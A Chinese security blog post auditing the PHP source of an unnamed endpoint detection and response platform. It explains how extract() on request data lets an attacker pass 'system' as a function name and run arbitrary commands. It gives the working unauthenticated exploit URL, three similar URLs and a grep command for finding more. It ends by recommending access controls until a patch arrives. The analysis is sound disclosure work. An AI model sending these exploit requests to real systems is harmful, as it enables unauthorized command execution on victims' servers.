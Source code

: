 ```yaml
---
layout: post
author: Vulkey_Chen
title: "某终端检测响应平台代码审计分析"
date: 2020-09-03
music-id: 
permalink: /archives/2020-09-03/2
description: "某终端检测响应平台代码审计分析"
---
```


# 某终端检测响应平台代码审计分析

## 前言

2020年08月17日收到一条漏洞情报，某终端检测响应平台代码未授权RCE：`/tool/log/c.php?strip_slashes=system&host=id`

![-w1120](/images/2020-09-03/15977354683614.jpg)

参数：**host**，可以修改任意的系统命令进行执行。

## 原理分析

首先我们跟进一下**/tool/log/c.php**文件发现其没有任何权限限制，所以我们只需要看一下请求参数是如何传递的，搜索关键词：

```php
$_POST
$_GET
$_REQUEST
```

在代码第144行、146行分别调用了**变量匿名函数**，并将`$_REQUEST`作为传递参数：

```php
$show_form($_REQUEST);
...
$main($_REQUEST);
```

先跟进**$show_form**这个匿名函数：

```php
$show_form = function($params) use(&$strip_slashes, &$show_input) {
    extract($params);
    $host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
    $path  = isset($path)  ? $strip_slashes($path)  : "";
    $row   = isset($row)   ? $strip_slashes($row)   : "";
    $limit = isset($limit) ? $strip_slashes($limit) : 1000;
    
    // 绘制表单
    echo "<pre>";
    echo '<form id="studio" name="studio" method="post" action="">';
    $show_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
    $show_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
    $show_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \s[w|e]\s"));
    $show_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
    echo '<input type="submit" id="button">';
    echo '</form>';
    echo "</pre>";
};
```

变量匿名函数 **$show_form** 具有一个形式参数 **$params** 在这里也就是`array("strip_slashes"=>"system","host"=>"id");`

接下来执行**extract($params);**，后进入如下代码：

```php
$host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
```

在这个过程中就产生了漏洞，想要了解具体原因，我们需要了解**extract**函数的作用，该函数是根据数组的`key=>value`创建变量`$key=value`（官方解释：**extract — Import variables into the current symbol table from an array**）

知道其函数作用之后，我们就大致明白漏洞原因了。

首先函数传入参数值为`array("strip_slashes"=>"system","host"=>"id");`

经过**extract()**函数后，赋值了2个变量：

```php
$strip_slashes = 'system';
$host = 'id';
```

在第91行代码，变量**$host**利用三元运算重新赋值**\$strip_slashes($host)**

而实际上其赋值内容是函数`system('id')`的返回结果，这也就造成了命令执行漏洞。

## 同类漏洞寻找

首先在全局文件中搜索`$_GET、$_POST、$_REQUEST`和`extract(`，其次在这些文件中使用正则寻找变量函数传递变量：`\$[a-zA-Z0-9_]*\(\$[a-zA-Z0-9_]*\)`

Linux grep寻找命令：

```shell
grep -E "\$_GET|\$_POST|\$_REQUEST" . -r --include \*.php -v | grep "extract(" -v | grep -E "\\\$[a-zA-Z0-9_]*\(\\\$[a-zA-Z0-9_]*\)"
```

简单分析获得了另外三处RCE：

```
/tool/php_cli.php?strip_slashes=system&code=id
/tool/ldb_cli.php?strip_slashes=system&json=id
/tool/mdd_sql.php?strip_slashes=system&root=id
```

但无法真正利用，三处文件开头都有一个类似文件存活的判断，不存在代码则**die**退出，而默认环境上是存在：

![-w568](/images/2020-09-03/15977415061102.jpg)


## 最后

该套程序还有诸多漏洞未被披露出来，建议采用ACL控制访问或下线该业务，等待官方升级补丁。